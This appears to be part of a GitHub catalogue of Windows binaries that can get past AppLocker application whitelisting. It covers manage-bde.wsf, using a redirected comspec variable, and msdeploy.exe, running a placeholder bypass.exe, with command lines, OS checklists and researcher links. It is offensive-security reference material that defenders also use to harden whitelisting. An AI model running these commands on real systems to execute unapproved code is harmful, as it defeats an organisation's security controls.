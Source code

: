   
  
  
## Manage-bde.wsf

```
cscript c:\windows\system32\manage-bde.wsf
```

* Windows binary: Yes
* Bypasses AppLocker Default rules: NT   

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:
Need to adjust comspec variable using: set comspec=c:\windows\system32\calc.exe

* Links:
  * https://gist.github.com/bohops/735edb7494fe1bd1010d67823842b712
  * https://twitter.com/bohops/status/980659399495741441
    
  
  
  
## msdeploy.exe

```
msdeploy.exe -verb:sync -source:RunCommand -dest:runCommand="c:\temp\bypass.exe & pause"
```

* Windows binary: Yes
* Bypasses AppLocker Default rules: Yes

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:
Part of web deploy: 
* https://www.iis.net/downloads/microsoft/web-deploy
   
* Links:
  * https://twitter.com/pabraeken/status/999090532839313408  